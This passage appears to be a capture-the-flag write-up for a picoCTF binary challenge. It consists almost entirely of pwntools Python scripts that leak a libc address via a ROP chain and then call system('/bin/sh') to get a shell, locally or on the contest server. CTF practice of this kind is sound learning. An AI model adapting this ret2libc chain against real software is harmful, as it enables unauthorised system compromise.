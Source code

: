 ```python
print('libc base = ' + hex(libc_base))

system_offset = 0x000000000004f4e0
binsh_offset = 0x1b40fa

system_address = libc_base + system_offset
binsh_address = libc_base + binsh_offset

payload = junk + p64(ret) + p64(pop_rdi_ret) + p64(binsh_address) +p64(system_address)
r.sendline(payload)

r.interactive()

```

## Exploit remote and local vippro123

```python
from pwn import *

libc = ELF('libc.so.6')
binary = ELF('./vuln')

if not args.REMOTE:
    r = process(binary.path)
else:
    r = remote('mercury.picoctf.net', 1774)

rop = ROP(binary)
pop_rdi_ret = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
puts_offset = libc.symbols['puts']


r.recvuntil("sErVeR!\n")

payload1 = b'a' * 136
payload1 += p64(ret)
payload1 += p64(pop_rdi_ret)
payload1 += p64(binary.got['puts'])
payload1 += p64(binary.plt['puts'])
payload1 += p64(ret)
payload1 += p64(binary.symbols['do_stuff'])

r.sendline(payload1)
r.recvline()

leak_puts = r.recv(6) + b'\x00\x00'
print("Leaked puts: " + str(hex(u64(leak_puts))))

libc.address = u64(leak_puts) - puts_offset
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.symbols['system']


payload2 = b'a'*136
payload2 += p64(ret)
payload2 += p64(pop_rdi_ret)
payload2 += p64(bin_sh)
payload2 += p64(system)

r.sendline(payload2)
r.interactive()
```